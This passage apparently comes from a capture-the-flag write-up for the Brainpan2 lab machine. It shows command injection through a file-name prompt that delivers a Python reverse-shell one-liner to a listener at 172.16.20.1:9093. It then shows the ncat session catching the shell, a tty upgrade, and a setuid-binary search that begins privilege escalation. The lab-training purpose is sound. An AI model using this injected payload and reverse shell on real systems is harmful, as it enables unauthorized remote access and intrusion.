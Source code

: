 Great! Let's spawn a reverse shell.

{% highlight bash %}
                          >> CREATE
    ENTER FILE TO CREATE: aldur;  python -c 'import socket as so,subprocess as su,os;s=so.socket(so.AF_INET,so.SOCK_STREAM);s.connect(("172.16.20.1",9093));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=su.call(["bash","-i"])'
    ENTER CONTENTS:
    FILE CREATED
                          >> VIEW
    ENTER FILE TO DOWNLOAD: aldur;  python -c 'import socket as so,subprocess as su,os;s=so.socket(so.AF_INET,so.SOCK_STREAM);s.connect(("172.16.20.1",9093));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=su.call(["bash","-i"])'
{% endhighlight %}

Notice that I used a relative path while spawning the `bash` process, because the use of slashes seemed to crash the console.

Meanwhile, on another console:

{% highlight bash %}
» ncat -lvp 9093
Ncat: Version 6.49SVN ( https://nmap.org/ncat )
Ncat: Listening on :::9093
Ncat: Listening on 0.0.0.0:9093
Ncat: Connection from 172.16.20.129.
Ncat: Connection from 172.16.20.129:57839.
bash: no job control in this shell
anansi@brainpan2:/opt/brainpan$ python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/sh")'
$
{% endhighlight %}

As usual, as first thing I spawn a tty, just to be sure.
Now, let's try escalating the privileges.

## Privilege escalation
As usual, among the things I do, I search for setuid executables.

{% highlight bash %}
$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/usr/sbin/exim4
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/bin/umount
/bin/ping
/bin/mount
/bin/ping6
/bin/su
/home/reynard/msg_root
$
{% endhighlight %}

